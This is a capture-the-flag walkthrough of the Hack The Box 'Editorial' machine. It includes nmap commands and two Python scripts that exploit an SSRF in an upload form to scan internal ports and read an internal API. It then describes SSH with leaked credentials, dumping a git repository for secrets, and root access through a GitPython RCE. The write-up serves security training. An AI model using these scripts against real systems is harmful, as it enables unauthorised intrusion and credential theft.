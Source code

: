 ```yaml
---
date: 2024-10-19
categories: [Linux, Easy]
---
```


![Logo](https://github.com/user-attachments/assets/f0778b7a-f98d-4de2-a60c-d82baf18432a)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [Lanz](https://app.hackthebox.com/users/73707)         | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---









- I start with a scan of the open ports,
    
    ```bash
    nmap -p- -vvv -sS --min-rate 2000 -Pn 10.10.11.20 -oG scan
    ```
    
    ![image](https://github.com/user-attachments/assets/0530e77d-29dc-41d4-87a3-feea64bb1e37)

    
- I continue with a scan of the versions and technologies that are running on the open ports that we have found
    
    ```bash
    nmap -p22,80 -sCV 10.10.11.20 -oN ports
    ```
    
    ![image 1](https://github.com/user-attachments/assets/1d1e8a64-f418-4b6d-9027-69f585b678bb)

    
- I found the domain `editorial.htb` and add it to the file in the `/etc/hosts` file
- I look at what technologies they are using on the website.
    
    ```bash
    whatweb 10.10.11.20 
    whatweb editorial.htb
    ```
    
    ![image 2](https://github.com/user-attachments/assets/52f40437-6109-4b82-afe6-aecfee5e6e3d)

    
    ![image 3](https://github.com/user-attachments/assets/dc563456-6284-407d-8252-0e996f45c85e)

    
- Browsing the web I find a page that allows us to upload a file. I can upload files but they are not interpreted.
    
    ![image 4](https://github.com/user-attachments/assets/83588bc1-0929-4f7f-815a-c9f983b3afdd)

    
    ![image 5](https://github.com/user-attachments/assets/1cd5b645-0cae-45b8-8033-148df6c85d4c)

    
- As I see that the url returned changes depending on whether the file has been uploaded or not, I decide to perform a scan in case it has open ports that are not accessible from the outside.
    
    ![image 6](https://github.com/user-attachments/assets/453b8506-cddc-4040-839f-632695a3d1f3)

    
    ![image 7](https://github.com/user-attachments/assets/3560b871-99e0-40d6-a8b9-ffa6c5ac0d1c)

    
- I create a script to automate the recognition and to show me the open ports according to the length of the response.
    
    ```bash
    #!/usr/bin/python3
    import requests
    import os
    import signal
    import time
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!]Saliendo....\n")
    	sys.exit(1)
    
    signal.signal(signal.SIGINT, def_handler)
    
    def scanPorts():
    	burp0_url = "http://editorial.htb:80/upload-cover"
    	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Content-Disposition": "inline", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "multipart/form-data; boundary=---------------------------134859763814168705221183954404", "Origin": "http://editorial.htb", "Connection": "keep-alive", "Referer": "http://editorial.htb/upload"}
    	openPorts = ""
    	p2 = log.progress("Ports open")
    	p1 = log.progress("Scanning port")
    	for port in range(1, 65535):
    		burp0_data = f"-----------------------------134859763814168705221183954404\r\nContent-Disposition: form-data; name=\"bookurl\"\r\n\r\nhttp://127.0.0.1:{port}\r\n-----------------------------134859763814168705221183954404\r\nContent-Disposition: form-data; name=\"bookfile\"; filename=\"\"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n-----------------------------134859763814168705221183954404--\r\n"
    		response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    		lon = len(response.text)
    		p1.status(port)
    		if (lon != 61):
    			if (openPorts == ""):
    				openPorts = port
    			else:
    				openPorts += f",{port}"
    			p2.status(openPorts)
    
    if __name__ == '__main__':
    	scanPorts()
    
    ```
    
- I find that port 5000 is open internally
    
    ![image 8](https://github.com/user-attachments/assets/0eac3f3d-a355-4165-9eed-3fbe0e459279)

    
- I look at the response it gives me when attacking against that port
    
    ![image 9](https://github.com/user-attachments/assets/6ecd93b7-0ff8-4b76-a81f-9729c9f714dd)

    
- When displaying the content of the response we see that we are dealing with an API. I modify the script so that it shows us the content of the queries directly and I begin to investigate the answers of the different endpoints.
    
    ```bash
    #!/usr/bin/python3
    import requests
    import os
    import signal
    import time
    import json
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!]Saliendo....\n")
    	sys.exit(1)
    
    signal.signal(signal.SIGINT, def_handler)
    
    url = "http://127.0.0.1:5000/api/latest/metadata/messages/authors"
    
    def scanPorts():
    	burp0_url = "http://editorial.htb:80/upload-cover"
    	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Content-Disposition": "inline", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "multipart/form-data; boundary=---------------------------134859763814168705221183954404", "Origin": "http://editorial.htb", "Connection": "keep-alive", "Referer": "http://editorial.htb/upload"}
    	p1 = log.progress("URL")
    	p1.status(url)
    	burp0_data = f"-----------------------------134859763814168705221183954404\r\nContent-Disposition: form-data; name=\"bookurl\"\r\n\r\n{url}\r\n-----------------------------134859763814168705221183954404\r\nContent-Disposition: form-data; name=\"bookfile\"; filename=\"\"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n-----------------------------134859763814168705221183954404--\r\n"
    	response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    	urlRequest = "http://editorial.htb/"+response.text
    
    	response2 = requests.get(urlRequest)
    	print(response2.text)
    
    if __name__ == '__main__':
    	scanPorts()
    
    ```
    
- When testing the endpoint authors encountered some potential credentials. I try to connect by ssh with those credentials and I get access and read the first flag
    
    ![image 10](https://github.com/user-attachments/assets/8a49c0a0-ec8f-4fca-a81e-96fd0fbdd5da)

    
    ![image 11](https://github.com/user-attachments/assets/500a15b3-c714-422e-8a88-1f7b46dc8378)

    
- I find that the user `prod`
    
    ![image 12](https://github.com/user-attachments/assets/aaf5761c-2a7e-40c6-a6f3-94e7fc280af4)

    
- When searching for files in the system I find a git repository in /opt/apps
    
    ![image 13](https://github.com/user-attachments/assets/82cffe08-1edc-449d-b66c-de6120d11801)

    
- I mount a web server on port `8000` with `python3 -m http.server` to download to my machine this repository with `git-dumper` and then with `extractor` retrieve the contents of the files in each commit.
    
    [git-dumper](https://github.com/arthaud/git-dumper)
    
    [extractor.sh](https://github.com/internetwache/GitTools/blob/master/Extractor/extractor.sh)
    
    ![image 14](https://github.com/user-attachments/assets/a9af2059-4d86-40cb-a34c-ce80058c1beb)

    
    ![image 15](https://github.com/user-attachments/assets/dd120772-498e-4306-b35a-b8113ca93dda)

    
- When I check the messages of each commit, I see `app_api/app.py` in the file I had and I find another credential with which I can switch user
    
    ![image 16](https://github.com/user-attachments/assets/11baf754-09b1-4986-81b7-8b536159729d)

    
    ![image 17](https://github.com/user-attachments/assets/95bba6b6-f125-4bf9-a0ff-f79141540b96)

    
- Looking at the commands that I can run as another user without providing a password I find that I can run as root a file
    
    ![image 18](https://github.com/user-attachments/assets/4a792ef0-2fe7-479d-9dae-2782420edc22)

    
    ![image 19](https://github.com/user-attachments/assets/11b93363-3655-454b-b40f-094d6d2ea5dd)

    
- After trying to do `python Library Hijacking` and getting nothing, I search for vulnerabilities in the clone_from function and find a `CVE` that allows `Remote Code Execution (RCE)`. Thanks to this I manage to execute a command as root, I become this user and I manage to read the second flag.
    
    https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858
    
    ![image 20](https://github.com/user-attachments/assets/011c8057-b3f0-4f02-a591-3dc5cef2cf70)
